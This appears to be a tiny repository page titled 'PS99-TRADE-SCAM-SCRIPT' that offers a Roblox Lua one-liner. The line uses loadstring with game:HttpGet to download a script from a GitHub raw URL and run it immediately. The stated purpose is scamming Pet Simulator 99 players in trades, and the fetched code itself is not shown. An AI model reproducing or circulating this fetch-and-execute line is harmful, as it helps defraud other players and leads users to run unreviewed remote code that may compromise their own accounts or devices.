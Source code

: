 # PS99-TRADE-SCAM-SCRIPT

SCRIPT loadstring(game:HttpGet('https://raw.githubusercontent.com/tobi437a/Scripts/refs/heads/main/aafffd979dd7f093b4765a0e.lua'))()